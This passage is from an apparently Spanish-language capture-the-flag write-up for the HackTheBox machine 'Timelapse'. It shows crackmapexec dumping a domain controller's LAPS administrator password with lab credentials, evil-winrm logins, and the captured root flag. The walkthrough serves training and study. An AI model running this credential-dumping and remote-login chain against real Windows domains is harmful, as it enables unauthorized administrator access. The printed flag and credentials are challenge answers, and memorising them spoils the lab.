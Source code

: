 ```ruby
evil-winrm -S -i timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'
```

### Escalada de privilegios

Recordemos que **svc_deploy** pertecene al grupo **LAPS_Readers**, asi que es muy probable que podamos ver el contenido de LAPS, aqui hare una pausa, hay varias maneras de dumpear LAPS, podemos usar **Get-LAPSPasswords.ps1**, simplemente nos conectamos con **EvilWinRM** como **svc_deploy** y despues nos pasamos **Get-LAPSPasswords.ps1** y lo ejecutamos, o podemos usar **crackmapexec** con el modulo de **ldap**:

```ruby
crackmapexec ldap timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -M laps
```

```ruby
SMB         timelapse.htb   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
LDAP        timelapse.htb   389    DC01             [+] timelapse.htb\svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV 
LAPS        timelapse.htb   389    DC01             [*] Getting LAPS Passwords
LAPS        timelapse.htb   389    DC01             Computer: DC01$                Password: 3s:apT2HA9i(M2Q@8Jh8r0c@w1
```

(la contraseña es diferente para cada usuario)

La contraseña es: **3s:apT2HA9i(M2Q@8Jh8r0c@w1**

Ahora solo nos queda conectarnos por **EvilWinRM** como el usuario **Administrator** y ya

```ruby
evil-winrm -S -i timelapse.htb -u Administrator -p '3s:apT2HA9i(M2Q@8Jh8r0c@w1'
```

Para no poner mas capturas, la flag no esta en directorio Desktop de Administrator, si recuerdas, cuando enumeramos usuarios, existia uno llamado **TRX** que tambien pertenece a Domain Admins, asi que la flag esta en el directorio desktop de ese usuario, y solo hace falta leerla con:

```ruby
type C:\Users\TRX\Desktop\root.tx
```

```ruby
*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\TRX\Desktop\root.txt
7f573da830f9bc884f3afcec7a23cdc7
```

Eso ha sido todo, gracias por leer ❤